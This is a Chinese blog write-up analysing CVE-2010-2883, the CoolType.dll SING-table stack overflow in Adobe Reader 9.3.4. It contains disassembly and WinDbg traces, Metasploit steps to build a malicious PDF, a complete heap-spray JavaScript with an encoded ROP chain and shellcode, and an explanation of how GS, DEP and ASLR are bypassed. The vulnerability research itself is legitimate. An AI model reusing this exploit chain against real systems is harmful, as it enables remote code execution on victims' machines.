# CVE-2010-2883-CoolType.dll 缓冲区溢出漏洞分析 - Taolaw - 博客园

> 原文：[`www.cnblogs.com/Taolaw/p/13823479.html`](https://www.cnblogs.com/Taolaw/p/13823479.html)

## 前言

此漏洞是根据泉哥的《漏洞战争》来学习分析的，网上已有大量分析文章在此只是做一个独立的分析记录。

## 复现环境

> *   操作系统 -> Windows XP Sp3
> *   软件版本 -> Adobe Reader 9.3.4

## 静态分析

如果根据泉哥的文章直接走倒是也没有啥问题，不过在学习的过程中倒是很想试一下如果没有更多提示的条件下是否可以走一遍整个流程。于是搜索这个漏洞的信息找到了一篇[NVD](https://nvd.nist.gov/vuln/detail/CVE-2010-2883)的文章，这里很明确的告诉了漏洞所在的库和`SING`表的一些信息以及漏洞类型是一个栈溢出，在这些信息的基础上我们可以尝试静态分析一下`CoolType.dll`来大概搜索一下漏洞可能出现的位置。其实注意看上下文的话，在 IDA 中能很快看到紧邻`SING`字符串的下方有一个`strcat`函数的调用，这里就极有可能是漏洞位置了。

```
.text:0803DCF9 var_160         = byte ptr -160h
.text:0803DCF9 var_140         = dword ptr -140h
.text:0803DCF9 var_138         = dword ptr -138h
.text:0803DCF9 var_134         = dword ptr -134h
.text:0803DCF9 var_130         = dword ptr -130h
.text:0803DCF9 var_12C         = dword ptr -12Ch
.text:0803DCF9 var_128         = dword ptr -128h
.text:0803DCF9 var_124         = dword ptr -124h
.text:0803DCF9 var_120         = dword ptr -120h
.text:0803DCF9 var_119         = byte ptr -119h
.text:0803DCF9 var_114         = dword ptr -114h
.text:0803DCF9 var_10C         = dword ptr -10Ch
.text:0803DCF9 var_108         = byte ptr -108h
.text:0803DCF9 var_4           = dword ptr -4
.text:0803DCF9 arg_0           = dword ptr  8
.text:0803DCF9 arg_4           = dword ptr  0Ch
.text:0803DCF9 arg_8           = dword ptr  10h
.text:0803DCF9 arg_C           = dword ptr  14h
.text:0803DCF9
.text:0803DCF9                 push    ebp
.text:0803DCFA                 sub     esp, 104h
.text:0803DD00                 lea     ebp, [esp-4]
.text:0803DD04                 mov     eax, ___security_cookie
.text:0803DD09                 xor     eax, ebp
.text:0803DD0B                 mov     [ebp+108h+var_4], eax
.text:0803DD11                 push    4Ch
.text:0803DD13                 mov     eax, offset sub_8184A54
.text:0803DD18                 call    __EH_prolog3_catch
.text:0803DD1D                 mov     eax, [ebp+108h+arg_C]
.text:0803DD23                 mov     edi, [ebp+108h+arg_0]
.text:0803DD29                 mov     ebx, [ebp+108h+arg_4]
.text:0803DD2F                 mov     [ebp+108h+var_130], edi
.text:0803DD32                 mov     [ebp+108h+var_138], eax
.text:0803DD35                 call    sub_804172C
.text:0803DD3A                 xor     esi, esi
.text:0803DD3C                 cmp     dword ptr [edi+8], 3
.text:0803DD40                 mov     [ebp+108h+var_10C], esi
.text:0803DD43                 jz      loc_803DF00
.text:0803DD49                 mov     [ebp+108h+var_124], esi
.text:0803DD4C                 mov     [ebp+108h+var_120], esi
.text:0803DD4F                 cmp     dword ptr [edi+0Ch], 1
.text:0803DD53                 mov     byte ptr [ebp+108h+var_10C], 1
.text:0803DD57                 jnz     loc_803DEA9
.text:0803DD5D                 push    offset aName    ; "name"
.text:0803DD62                 push    edi             ; int
.text:0803DD63                 lea     ecx, [ebp+108h+var_124]
.text:0803DD66                 mov     [ebp+108h+var_119], 0
.text:0803DD6A                 call    sub_80217D7
.text:0803DD6F                 cmp     [ebp+108h+var_124], esi
.text:0803DD72                 jnz     short loc_803DDDD
.text:0803DD74                 push    offset aSing    ; "SING"
.text:0803DD79                 push    edi             ; int
.text:0803DD7A                 lea     ecx, [ebp+108h+var_12C]
.text:0803DD7D                 call    sub_8021B06
.text:0803DD82                 mov     eax, [ebp+108h+var_12C]
.text:0803DD85                 cmp     eax, esi
.text:0803DD87                 mov     byte ptr [ebp+108h+var_10C], 2
.text:0803DD8B                 jz      short loc_803DDC4
.text:0803DD8D                 mov     ecx, [eax]
.text:0803DD8F                 and     ecx, 0FFFFh
.text:0803DD95                 jz      short loc_803DD9F
.text:0803DD97                 cmp     ecx, 100h
.text:0803DD9D                 jnz     short loc_803DDC0
.text:0803DD9F
.text:0803DD9F loc_803DD9F:                            ; CODE XREF: sub_803DCF9+9Cj
.text:0803DD9F                 add     eax, 10h
.text:0803DDA2                 push    eax             ; char *
.text:0803DDA3                 lea     eax, [ebp+108h+var_108]
.text:0803DDA6                 push    eax             ; char *
.text:0803DDA7                 mov     [ebp+108h+var_108], 0
.text:0803DDAB                 call    strcat 
```

这里可以看到`strcat`函数调用之前确实没有进行长度验证，如果只是单纯的看这段汇编代码可能很难和整个漏洞联系起来，于是我们要动态调试来看一看。

## 动态调试

首先，我们利用`msf`生成一个样本，为了后面的调试方便，最好先改一下 exp 的源码，linux 下 msf 的`exp`在`/opt/metasploit-framework/embedded/framework/modules/exploits/windows/fileformat`目录下，随后我们找到`adobe_cooltype_sing.rb`文件，注释掉其中的第`102`行，恢复`101`行，这里为了不被检测到用了随机数据的方式来填充的，但是这不利于调试。然后设置`payload`，命令行如下

```
msf6 exploit(windows/fileformat/adobe_cooltype_sing) > set filename calc.pdf
filename => calc.pdf
msf6 exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/exec 
payload => windows/exec
msf6 exploit(windows/fileformat/adobe_cooltype_sing) > set cmd calc.exe
cmd => calc.exe
msf6 exploit(windows/fileformat/adobe_cooltype_sing) > run 
```

然后我们用`windbg`打开 Adober Reader，用`sxe ld CoolType`在程序加载 CoolType.dll 的时候下断，随后执行，加上 IDA 中的静态分析我们可以知道`strcat`函数的偏移，于是我们在 strcat 处下断`bp 0803DDAB` ，打开 poc，继续执行，这里我们看到调用 strcat 函数之前的函数参数如下

```
0:000> dd esp
0013e468  0013e4d8 03395fb4 07e5c04f 00000004
0013e478  0013e6d0 00000000 0341f250 0341f0d0
0013e488  03685db0 03685dac 0013e4c0 78147548
0013e498  0341f0d0 03685db0 000001fc 00000004
0013e4a8  0013e700 0013e6d0 0013e718 03395fa4
0013e4b8  00001ddf 00000000 00000000 00e5b9cc
0013e4c8  0013e470 0013e70c 08184a54 00000002
0013e4d8  0013e400 0013e6b0 00000000 07e5c1d7
0:000> dd 0013e4d8 
0013e4d8  0013e400 0013e6b0 00000000 07e5c1d7
0013e4e8  0013e858 0823ae9c 080852ef 0823a650
0013e4f8  03685dac 08080d0b 0341f0c4 0013e4d4
0013e508  0013e550 010ff8af ffffffff 00e5b9dc
0013e518  00f4a90a 0013e584 0013e594 0013e580
0013e528  0013e57c 00f4a949 07e5d872 00000004
0013e538  0013e6b0 00000000 0013e540 00f4a90a
0013e548  0013e5b0 0013e5c0 0013e5d4 010fc97e
0:000> dd 03395fb4 
03395fb4  41414141 41414141 4a82a714 0c0c0c0c
03395fc4  41414141 41414141 41414141 41414141
03395fd4  41414141 41414141 41414141 41414141
03395fe4  41414141 41414141 41414141 41414141
03395ff4  41414141 41414141 41414141 41414141
03396004  41414141 41414141 41414141 41414141
03396014  41414141 41414141 41414141 41414141
03396024  41414141 41414141 41414141 41414141 
```

调试到这一步基本验证了之前的想法，漏洞确实在此处 strcat 的位置。此时我们用`pdfStreamDumper`这个工具来分析一下样本 pdf，将对应的 object 保存到本地如下


由于 Adobe font 官网 2018 的改版原来介绍`SING`表数据结构的文档暂时未找到，根据泉哥书中的介绍 SING 字符串偏移`0x11c`以后就是 SING 表的真实数据，也就是 A 字符串填充开始的地方，strcat 的复制拼接也是从这里开始的。这里复制的长度为`0x23C`，从书中提供的`SING`表的数据结构来看这里接受的最大长度是`28Byte`，复制的长度远远超过了缓冲区的长度。在确定了漏洞的位置以后，我们就来学一学此漏洞的利用，尽量从`exp`的作者来考虑这个问题。

## 漏洞利用

首先我们需要罗列一下这个版本的 Adobe Reader 都开启了哪些安全机制

> *   GS，又称`canary`，通过在函数返回前压入栈的随机值是否被覆盖来决定是否抛出异常，或者继续执行代码
> *   DEP，堆栈不可执行保护，标记了堆栈读写属性，完全关闭了执行的权限
> *   ASLR，地址随机化，程序每次加载的内存位置不固定，在此版本的 Reader 中应该未覆盖到此模块

首先我们来看一下`GS`的通用绕过策略，通常包括以下几种方法

> *   利用未开启`GS`安全机制的内存
> *   覆盖异常处理机制(SEH)的指针，程序触发异常后劫持程序执行流，如果程序启用 safeSEH 则需要另外考虑
> *   利用 C++函数的虚表指针，覆盖虚函数的指针，在溢出后，函数返回之前就劫持程序流程
> *   信息泄露，利用条件比较受限

我们分析一下手头的样本，看作者利用了哪些方法来绕过`GS`的，观察一下复制了内容以后的栈空间和之前的对比，如下所示

**复制之前 1**



**复制之后 1**



**复制之前 2**



**复制之后 2**



**复制之前 3**



**复制之后 3**



从这几处的对比可以看出，作者溢出缓冲区只是覆盖了几个关键的位置，那么这几个关键的位置究竟是做什么用的呢？通过单步跟踪的方式，我们最终跟踪到了一处调用，如下所示

```
0:000> p
eax=0013e6d0 ebx=00000000 ecx=0013dd44 edx=00000000 esi=0224b760 edi=0013e718
eip=0808b308 esp=0013dd28 ebp=0013dd48 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
CoolType!CTInit+0x44c65:
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files\Adobe\Reader 9.0\Reader\icucnv36.dll - 
0808b308 ff10            call    dword ptr [eax]      ds:0023:0013e6d0=4a80cb38
0:000> dd eax
0013e6d0  4a80cb38 41414141 41414141 41414141
0013e6e0  41414141 41414141 41414141 41414141
0013e6f0  41414141 41414141 41414141 41414141
0013e700  41414141 41414141 41414141 41414141
0013e710  41414141 0000006c 00000000 0000006d
0013e720  00000001 00000001 00000000 04835f84
0013e730  0483cae0 000026ec 0483c750 00000000
0013e740  0483c758 00000200 0483c758 080833ef
0:000> u 4a80cb38 
icucnv36!ucnv_toUChars_3_6+0x162:
4a80cb38 81c594070000    add     ebp,794h
4a80cb3e c9              leave
4a80cb3f c3              ret 
```

可以看到此处的函数调用的地址刚好是覆盖后的特殊字段，对其进行反汇编可以发现其作用是将栈拉低`0x794`的地址长度然后返回，很明显这里已经是作者布置好的`ROP`链，这用来绕过上面所说的`DEP`机制，跟踪的过程中发现此处还未执行到`strcat`函数所在函数块的正常返回的位置，那么可以初步确定绕过`GS`的方法用的就是覆盖 C++虚函数的方式，那么上面被`4a80cb38`所覆盖的就是原本的 C++的虚函数指针，这里选择`4a80cb38`作为`ROP`的地址的一部分是因为其所在的`icucnv36.dll`基本在之前的大部分版本中都保持不变，所以极大提高了 exp 的通用性。我们跟进去，看看这里返回以后是哪里

```
0:000> t
eax=0013e6d0 ebx=00000000 ecx=0013dd44 edx=00000000 esi=0224b760 edi=0013e718
eip=4a80cb38 esp=0013dd24 ebp=0013dd48 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!ucnv_toUChars_3_6+0x162:
4a80cb38 81c594070000    add     ebp,794h
0:000> p
eax=0013e6d0 ebx=00000000 ecx=0013dd44 edx=00000000 esi=0224b760 edi=0013e718
eip=4a80cb3e esp=0013dd24 ebp=0013e4dc iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!ucnv_toUChars_3_6+0x168:
4a80cb3e c9              leave
0:000> p
eax=0013e6d0 ebx=00000000 ecx=0013dd44 edx=00000000 esi=0224b760 edi=0013e718
eip=4a80cb3f esp=0013e4e0 ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!ucnv_toUChars_3_6+0x169:
4a80cb3f c3              ret
0:000> dd esp
0013e4e0  4a82a714 0c0c0c0c 41414141 41414141
0013e4f0  41414141 41414141 41414141 41414141
0013e500  41414141 41414141 41414141 41414141
0013e510  41414141 41414141 41414141 41414141
0013e520  41414141 41414141 41414141 41414141
0013e530  41414141 41414141 41414141 41414141
0013e540  41414141 41414141 41414141 41414141
0013e550  41414141 41414141 41414141 41414141
0:000> u 4a82a714 
icucnv36!icu_3_6::CharacterIterator::setToStart+0x8:
4a82a714 5c              pop     esp
4a82a715 c3              ret 
```

看到上面的指令，尤其是`0c0c0c0c`这块地址，基本上已经确定了，这里使用的是`Heap Spray`。这里通过把原来的栈内存释放到溢出以后的可控区域，然后在其中布置`ROP`链地址，最后劫持寄存器到堆中指定地址，执行另外的`ROP`链。既然是用`Heap Spray`在堆中布局，那么 pdf 中一定内嵌了`js`，我们看一下

```
var var_unescape = unescape;
var shellcode = var_unescape('%u4141%u4141%u63a5%u4a80%u0000%u4a8a%u2196%u4a80%u1f90%u4a80%u903c%u4a84%ub692%u4a80%u1064%u4a80%u22c8%u4a85%u0000%u1000%u0000%u0000%u0000%u0000%u0002%u0000%u0102%u0000%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9038%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0000%u0000%u0040%u0000%u0000%u0000%u0000%u0001%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9030%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0022%u0000%u0000%u0000%u0000%u0000%u0000%u0001%u63a5%u4a80%u0004%u4a8a%u2196%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0030%u0000%ua8a6%u4a80%u1f90%u4a80%u0004%u4a8a%ua7d8%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0020%u0000%ua8a6%u4a80%u63a5%u4a80%u1064%u4a80%uaedc%u4a80%u1f90%u4a80%u0034%u0000%ud585%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u000a%u0000%ua8a6%u4a80%u1f90%u4a80%u9170%u4a84%ub692%u4a80%uffff%uffff%uffff%uffff%uffff%uffff%u1000%u0000%udbb8%u1039%uda5b%ud9da%u2474%u5af4%uc931%u31b1%uea83%u31fc%u0f42%u4203%udbd4%ua7e5%u9902%u5806%ufed2%ubd8f%u3ee3%ub6eb%u8f53%u9a7f%u645f%u0f2d%u08d4%u20fa%ua65d%u0fdc%u9b5e%u111d%ue6dc%uf171%u28dd%uf084%u541a%ua065%u12f3%u55d8%u6e70%udee1%u7eca%u0261%u819a%u9540%udb91%u1742%u5076%u0fcb%u5d9b%ua485%u296f%u6d14%ud2be%u50bb%u210f%u95c5%udab7%uefb0%u67c4%u2bc3%ub3b7%ua846%u371f%u14f0%u949e%ude67%u51ac%ub8e3%u64b0%ub320%uedcc%u14c7%ub545%ub0e3%u6d0e%ue18d%uc0ea%uf2b2%ubc55%u7816%ua97b%u232a%u2c11%u59b8%u2e57%u61c2%u47c7%ueaf3%u1088%u390c%uefed%u6046%u7847%uf00f%ue5da%u2eb0%u1018%udb33%ue7e0%uae2b%uace5%u42eb%ubd97%u6499%ubd04%u068b%u2dcb%ue757%ud66e%uf7f2');
var var_c = var_unescape("%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c");

while (var_c.length + 20 + 8 < 65536) {
    var_c += var_c;
}

sp = var_c.substring(0, (0x0c0c - 0x24) / 2);
sp += shellcode;
sp += var_c;
slackspace = sp.substring(0, 65536 / 2);
while (slackspace.length < 0x80000) {
    slackspace += slackspace;
}
bigblock = slackspace.substring(0, 0x80000 - (0x1020 - 0x08) / 2);
var memory = new Array();
for (count = 0; count < 0x1f0; count++) {
    memory[count] = bigblock + "s"
} 
```

通过观察这段`js`的代码，我们发现其基本上就是将`0c0c0c0c + shellcode + 0c0c0c0c`这样的"肉夹馍"(一份大概`32k`)整了`200+M`。这样覆盖到`0x0c0c0c0c`这个地址基本不是什么问题。用这样的方式布置`shellcode`也基本不用考虑`ASLR`的影响了。随后我们分析一下`shellcode`所做的操作，`shellcode`也是用了`ROP`来做实现的







可以看出执行`ROP`使用了多条链，这里要指出的一点是此版本的 Reader 开启了`ASLR`，但是却没有覆盖到这里所用的`icucnv36.dll`这个模块，所以以上的 ROP 链是可以稳定执行的。到此漏洞利用的行为基本分析清楚，我们来回顾一下，作者是如何逐个突破这些安全机制的限制，一步一步达到`RCE`的

> *   GS-->这里作者使用了覆盖 C++的虚函数指针的方式来绕过的，使得在函数返回做检查之前就成功劫持程序执行流
> *   DEP-->这里使用的是经典的对抗方式`ROP`
> *   ASLR-->作者找到了未开启 ASLR 的模块来依托其稳定的执行 ROP 链

这其中尤其是绕过`GS`所使用的覆盖 C++虚表函数指针的操作，使得整个利用的过程获得了完美的转机，本环境中系统是默认开启了`safeSEH`防护的，在这样的条件下使用覆盖 C++虚表函数的方式，直接可以同时间绕过`GS`和`safeSEH`，两全其美。

## shellcode 分析

shellcode 部分首先就是执行了一个`CreateFileW`函数来创建一个文件，下面是这个函数的定义

```
HANDLE CreateFile(

　　LPCTSTR lpFileName, //指向文件名的指针

　　DWORD dwDesiredAccess, //访问模式（写/读）

　　DWORD dwShareMode, //共享模式

　　LPSECURITY_ATTRIBUTES lpSecurityAttributes, //指向安全属性的指针

　　DWORD dwCreationDisposition, //如何创建

　　DWORD dwFlagsAndAttributes, //文件属性

　　HANDLE hTemplateFile //用于复制文件句柄

　　); 
```

我们来看一下此时的参数

```
0:000> p
eax=7ffdebf8 ebx=00000000 ecx=7ffdec00 edx=4a8522c8 esi=0224b760 edi=0013e718
eip=7c801a4e esp=0c0c0c04 ebp=0c0c0c20 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
kernel32!CreateFileA+0x26:
7c801a4e e886f20000      call    kernel32!CreateFileW (7c810cd9)
0:000> dd esp
0c0c0c04  7ffdec00 10000000 00000000 00000000
0c0c0c14  00000002 00000102 00000000 41414141
0c0c0c24  4a801064 4a8522c8 10000000 00000000
0c0c0c34  00000000 00000002 00000102 00000000
0c0c0c44  4a8063a5 4a801064 4a842db2 4a802ab1
0c0c0c54  00000008 4a80a8a6 4a801f90 4a849038
0c0c0c64  4a80b692 4a801064 ffffffff 00000000
0c0c0c74  00000040 00000000 00010000 00000000
0:000> dc 7ffdec00 
7ffdec00  00730069 0038006f 00350038 00310039  i.s.o.8.8.5.9.1.
7ffdec10  00640000 00650052 00650063 00760069  ..d.R.e.c.e.i.v.
7ffdec20  00430065 006e006f 00630065 00690074  e.C.o.n.e.c.t.i.
7ffdec30  006e006f 0045002e 00650076 0074006e  o.n...E.v.e.n.t.
7ffdec40  0045002e 00470048 0049002e 00000043  ..E.H.G...I.C...
7ffdec50  0069005c 00750063 00740064 00360033  \.i.c.u.d.t.3.6.
7ffdec60  0063005f 006b006a 0064002e 006c006c  _.c.j.k...d.l.l.
7ffdec70  006c0000 006e0000 0061002e 006c0070  ..l...n...a.p.l. 
```

根据函数的定义我们知道`0x7ffdec00`这个地址处就是创建的文件文件名，我们看到其名字是`iso88591`，这里还要指出的一点是创建的文件是和打开的 pdf 在一个文件夹下面，但是，他是隐藏文件(参考栈中的参数)，不过在创建文件以后，通过`Everything`还是很容易搜索得到的



创建文件以后又调用了`CreatFileMapping`函数为刚刚创建的文件生成一个文件共享内存映像，其函数原型和参数如下所示

```
HANDLE CreateFileMapping(
  HANDLE hFile,                       //物理文件句柄
  LPSECURITY_ATTRIBUTES lpAttributes, //安全设置
  DWORD flProtect,                    //保护设置
  DWORD dwMaximumSizeHigh,            //高位文件大小
  DWORD dwMaximumSizeLow,             //低位文件大小
  LPCTSTR lpName                      //共享内存名称
); 
```

```
0:000> p
eax=4a849038 ebx=00000008 ecx=4a801064 edx=00160608 esi=00000000 edi=0000048c
eip=7c80955a esp=0c0c0c40 ebp=0c0c0c64 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
kernel32!CreateFileMappingA+0x50:
7c80955a e8ddfeffff      call    kernel32!CreateFileMappingW (7c80943c)
0:000> dd esp
0c0c0c40  0000048c 00000000 00000040 00000000
0c0c0c50  00010000 00000000 0224b760 4a801064
0c0c0c60  4a801064 41414141 4a801064 0000048c
0c0c0c70  00000000 00000040 00000000 00010000
0c0c0c80  00000000 4a8063a5 4a801064 4a842db2
0c0c0c90  4a802ab1 00000008 4a80a8a6 4a801f90
0c0c0ca0  4a849030 4a80b692 4a801064 ffffffff
0c0c0cb0  00000022 00000000 00000000 00010000 
```

在这之后紧接着，用相同的手段调用了`CreateFileMappingEx`函数，将之前创建的文件内存映射对象映射到当前程序的地址空间，其函数原型和参数如下

```
LPVOID WINAPI MapViewOfFileEx(
　　__in HANDLE hFileMappingObject,
　　__in DWORD dwDesiredAccess,
　　__in DWORD dwFileOffsetHigh,
　　__in DWORD dwFileOffsetLow,
　　__in SIZE_T dwNumberOfBytesToMap,
　　__in LPVOID lpBaseAddress
　　); 
```

```
0:000> p
eax=4a849030 ebx=00000008 ecx=4a801064 edx=7c90e514 esi=0224b760 edi=00000488
eip=7c80b9bb esp=0c0c0c8c ebp=0c0c0ca4 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
kernel32!MapViewOfFile+0x16:
7c80b9bb e876ffffff      call    kernel32!MapViewOfFileEx (7c80b936)
0:000> dd esp
0c0c0c8c  00000488 00000022 00000000 00000000
0c0c0c9c  00010000 00000000 41414141 4a801064
0c0c0cac  00000488 00000022 00000000 00000000
0c0c0cbc  00010000 4a8063a5 4a8a0004 4a802196
0c0c0ccc  4a8063a5 4a801064 4a842db2 4a802ab1
0c0c0cdc  00000030 4a80a8a6 4a801f90 4a8a0004
0c0c0cec  4a80a7d8 4a8063a5 4a801064 4a842db2
0c0c0cfc  4a802ab1 00000020 4a80a8a6 4a8063a5 
```

再往下走，我们碰到了一个很熟悉的函数`memcpy`，此处将真正的`shellcode`复制到映射过来的内存区域，然后执行

```
0:000> p
eax=0c0c1d54 ebx=0000000a ecx=00000400 edx=00000000 esi=0c0c0d54 edi=03f30000
eip=7814507a esp=0c0c0d38 ebp=0c0c0d40 iopl=0         nv up ei pl nz ac po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200212
MSVCR80!memcpy+0x5a:
7814507a f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
0:000> dd esi
0c0c0d54  1039dbb8 d9dada5b 5af42474 31b1c931
0c0c0d64  31fcea83 42030f42 a7e5dbd4 58069902
0c0c0d74  bd8ffed2 b6eb3ee3 9a7f8f53 0f2d645f
0c0c0d84  20fa08d4 0fdca65d 111d9b5e f171e6dc
0c0c0d94  f08428dd a065541a 55d812f3 dee16e70
0c0c0da4  02617eca 9540819a 1742db91 0fcb5076
0c0c0db4  a4855d9b 6d14296f 50bbd2be 95c5210f
0c0c0dc4  efb0dab7 2bc367c4 a846b3b7 14f0371f
0:000> u esi
0c0c0d54 b8db39105b      mov     eax,5B1039DBh
0c0c0d59 dada            fcmovu  st,st(2)
0c0c0d5b d97424f4        fnstenv [esp-0Ch]
0c0c0d5f 5a              pop     edx
0c0c0d60 31c9            xor     ecx,ecx
0c0c0d62 b131            mov     cl,31h
0c0c0d64 83eafc          sub     edx,0FFFFFFFCh
0c0c0d67 31420f          xor     dword ptr [edx+0Fh],eax 
```

这时我们发现已经创建好的文件中被写入了`shellcode`，打开如下所示



可以发现这正是我们复制过来的数据，随后我们对其进行反汇编，看看其代码，如下所示

```
void fcn.00000000(int64_t arg1, int64_t arg2, int64_t arg_10h)
{
    uint32_t uVar1;
    int64_t iVar2;
    uint64_t uVar3;
    int64_t unaff_RSI;
    int64_t unaff_RDI;
    uint32_t in_FPUInstructionPointer;

    uVar1 = 0x81876589;
    uVar3 = (uint64_t)in_FPUInstructionPointer;
    iVar2 = 0x59;
    do {
        uVar3 = (uint64_t)((int32_t)uVar3 + 4);
        *(uint32_t *)(uVar3 + 0x10) = *(uint32_t *)(uVar3 + 0x10) ^ uVar1;
        uVar1 = uVar1 + *(int32_t *)(uVar3 + 0x10);
        iVar2 = iVar2 + -1;
    } while (iVar2 != 0);
    fcn.000000b0(unaff_RSI, unaff_RDI);
    // WARNING: Bad instruction - Truncating control flow here
    halt_baddata();
} 
```

## 总结

作者在选择执行`shellcode`的时候选择用创建新的可执行内存区域的方式使得任意代码执行更稳定，这种稳妥的利用不失为一种好的思路。